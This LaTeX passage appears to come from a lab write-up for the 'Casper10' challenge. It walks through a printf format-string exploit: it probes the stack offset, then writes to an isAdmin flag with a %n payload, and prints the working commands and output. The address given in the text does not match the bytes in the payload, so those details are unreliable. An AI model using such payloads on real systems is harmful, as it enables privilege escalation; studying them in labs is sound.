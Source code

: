 \subsubsection{Exploit}
The idea behind this exploit is relatively simple: the wrong \texttt{printf} use makes it possible to pass as an argument a string containing the \texttt{isAdmin}'s memory address and some positional parameters to skip space and write the memory. This procedure hides some subtle troubles. First of all, it is necessary to know the address of \texttt{isAdmin}. This can be easily determined with \texttt{gdb}, and corresponds to \texttt{0x08049904}. Next, it is fundamental to know the distance between the end of the stack frame and the beginning of the format string memory. This can be determined using the same vulnerability, but in its ``reading'' version. In order to do so, the following command has been used: \\
\texttt{/casper/casper10 AAAA\$(python -c ``print '\%08x.'*40'')}\\
It printed the following string: \\
\texttt{
	Hello AAAA080486d0.bffff74a.00000000.00000001.0000094e.b7fdce08.\\
	bffff74a.6548e5f9.206f6c6c.\colorbox{yellow}{41414141}.78383025.3830252e.30252e78.\\
	252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.\\
	78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.\\
	30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.\\
	2e783830.78383025.3830252e.30252e78.252e7838.2e783830.!} \\
As you can see, \texttt{41414141} is highlighted. It corresponds to the string \texttt{AAAA} placed at the beginning of the format string. A simple count of the bytes before \texttt{41414141} gives the distance between the end of the stack frame and the beginning of the format string memory. This number is nine. Now the following information is available:
\begin{itemize}
	\item \texttt{isAddress} is at \texttt{0x08049904};
	\item Nine bytes are above the format string memory.
\end{itemize}
The exploit aims to ``jump'' those nine bytes, and to write in a memory location corresponding to \texttt{isAdmin}'s address. Hence, the following command is used to exploit Casper10:\\
\texttt{\$(printf ``$\backslash$x40$\backslash$x99$\backslash$x04$\backslash$x08'')\%x\%x\%x\%x\%x\%x\%x\%x\%100x\%n} \\
The first part prints the address of the global variable the exploit aims to overwrite. Afterwards, nine format parameters (\texttt{\%x}) are provided. They are only needed to step through memory. In the end, \texttt{\%n} requests to write the memory address specified at the beginning of the string. 100 makes \texttt{printf} write a non-zero value. 

